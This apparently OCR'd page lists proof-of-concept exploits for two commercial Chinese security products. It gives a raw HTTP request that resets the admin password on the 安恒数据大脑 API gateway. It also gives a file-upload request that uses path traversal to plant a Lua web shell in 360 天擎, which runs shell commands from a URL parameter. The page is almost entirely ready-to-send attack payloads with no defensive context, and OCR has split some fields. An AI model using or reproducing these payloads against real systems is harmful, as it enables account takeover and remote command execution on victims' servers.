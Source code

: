 



## 安恒数据大脑 API 网关任意密码重置漏洞

**漏洞等级** 严重



### 0x02 poc

```
POST /q/common-permission/public/users/forgetPassword HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0 
Accept-Language: en-US,en;q=0.5 
Content-type: application/json 
Accept-Encoding: gzip, deflate 
Connection: close 
Upgrade-Insecure-Requests: 1 
Content-Length: 104 


{"code":XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX,"rememberMe":false,"use rname":"admin","password":"XXXXXXXXXXXXXXXXXXXXXXXXXX"}
```



## 360 天擎任意文件上传

**漏洞等级**：严重

漏洞详情：/api/client_upload_file.json 存在任意文件上传漏洞

```
POST /api/client_upload_file.json?mid=12345678901234567890123456789012&md5=123456 78901234567890123456789012&filename=../../lua/123.LUAC HTTP/1.1 
Host: xxxxx 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15 
Content-Length: 323 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLx7ATxHThfk91ox Q 
Referer: xxxxx Accept-Encoding: gzip 


------WebKitFormBoundaryLx7ATxHThfk91oxQ 
Content-Disposition: form-data; name="file"; filename="flash.php" Content-Type: application/xxxx if ngx.req.get_uri_args().cmd then cmd = ngx.req.get_uri_args().cmd local t = io.popen(cmd) local a = t:read("*all") ngx.say(a) 
end------WebKitFormBoundaryLx7ATxHThfk91oxQ--
```




